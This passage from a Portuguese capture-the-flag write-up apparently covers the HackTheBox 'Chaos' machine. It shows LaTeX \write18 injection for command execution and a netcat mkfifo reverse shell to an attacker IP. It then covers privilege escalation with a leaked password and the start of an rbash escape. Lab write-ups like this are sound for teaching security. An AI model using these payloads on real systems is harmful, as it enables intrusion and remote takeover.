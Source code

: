 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_pay.png)

Encontramos esse blog, do PayloadAllTheThings que nos explica como fazer para explorar

> https://github.com/swisskyrepo/PayloadsAllTheThings

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_pay1.png)

Show... 

O exploit está se referenciando ao write18, que podemos ver na segunda linha da resposta do BurpSuite (\write18 enabled.)

Esse formato nos permite escrever ao 18º file descriptor, o qual, por padrão é a linha de comando. Então, se para o LaTeX é passado algo no formato certo, ele vai executar o comando:

`\immediate\write18{[command]}`

Então vamos testar pra ver se da certo ou não

`content=\immediate\write18{id}&template=test1`

Sim! Temos RCE na máquina!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_pay3.png)

Agora vamos pegar um shell

`content=\immediate\write18{rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.117+443+>/tmp/f}&template=test1`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_pay4.png)

## Escalação de Privilégio - www-data -> Ayush

É simples, basta apenas pegarmos a senha que tinhamos pego do e-mail do ayush e nos tornar ayush

`su ayush`

`jiujitsu`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_a.png)

### Escapando do Rbash

Se verificarmos agora, entramos em um bash restrito (rbash) devemos sair dele para poder executar comandos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_a1.png)

Se digitarmos duas vezes o tab, ele nos dá os comandos que podemos executar na máquina, entre ele está o tar. Com o tar conseguimos escapar o bash

Temos dois links de referência para estudo de métodos para escapar do rbash

`https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf`
